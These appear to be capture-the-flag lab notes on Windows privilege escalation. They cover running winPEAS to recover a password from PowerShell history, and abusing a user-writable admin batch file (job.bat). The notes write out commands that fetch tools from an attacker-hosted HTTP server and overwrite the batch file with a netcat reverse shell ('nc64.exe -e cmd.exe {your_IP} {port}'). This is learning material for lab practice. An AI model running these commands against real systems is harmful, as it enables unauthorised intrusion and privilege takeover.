

privilege escalation
A) Using winpeas
Assuming we already have user privilege. Get the tool for Privilege Escalation.
https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe
Run The web server in Attacker Machine to host the winPEASx64.exe:
python3 -m http.server 80
On Target Machine:
powershell
wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe

PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
Note: The output of the tool is long, here you will see just the small(Important) part of the output.
We can navigate to the folder where the PowerShell history is stored:

To read the file, we will type type ConsoleHost_history.txt :

Thus, we get the password.
B) Using a admin program that runs in a batch file.

In the following job.bat uses an admin program but can be fully accessed by the user. We exploit this.

The purpose of job.bat seems to be related to clearing logfiles, and it can only be run with an
Administrator account. There is also mention of an executable named wevtutil , which upon further
investigation is determined to be a Windows command that has the ability to retrieve information about
event logs and publishers. It can also install and uninstall event manifests, run queries and export, archive
and clear logs. We now understand the use of it in this case, alongside the el and cl parameters found in
the job.bat file.
Since the file itself can only be run by an Administrator, we could try our luck and see if our usergroup could
at least edit the file, instead of running it, or if there are any mismatched permissions between the script
and the usergroup or file configuration. We can achieve this by using the icacls command.
Looking at the permissions of job.bat using icacls reveals that the group BUILTIN\Users has full
control (F) over the file. The BUILTIN\Users group represents all local users, which includes Daniel as
well. We might be able to get a shell by transferring netcat to the system and modifying the script to
execute a reverse shell.
Before then, we need to check if the wevtutil process mentioned in the job.bat file is running. We can
see the currently scheduled tasks by typing the schtasks command. If our permission level doesn't allow
us to view this list through Windows' command line, we can quickly use powershell's ps command instead,
which represents another security misconfiguration that works against the server.
We can see that the process wevtutil is running, which is the same process listed in the job.bat file. This
indicates that the .bat script might be executing. (Required)
Because the target host does not have access to the Internet, we will need to deliver the nc64.exe
executable through our own connection with the target. In order to do so, we will first need to download
nc64.exe on our system, start up a Python HTTP server on one of our ports, then switch to the shell we
have on the host to issue a wget command with our address and the nc64.exe file residing on our server.
This will initialize a download from the host to our Python server for the executable. Make sure you don't
switch folders after downloading the executable. The Python HTTP server needs to be running in the same
directory as the location of the downloaded nc64.exe file we want to deliver to the target.
In order to download the executable on our system, we can use this link:
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

Since we have full control over the job.bat script, we will modify its' contents by running the following
command. Make sure to run it from the Windows Command Line, where the daniel@MARKUP user is
displayed before every command, and not from Windows PowerShell, where PS is displayed before every
command. As before, make sure to change the {your_IP} parameter with the IP address assigned to your
tun0 interface and the {port} parameter with a port of your choice, which you will listen for connections
on.
echo C:\Log-Management\nc64.exe -e cmd.exe {your_IP} {port} > C:\Log-Management\job.bat
Then listen in netcat.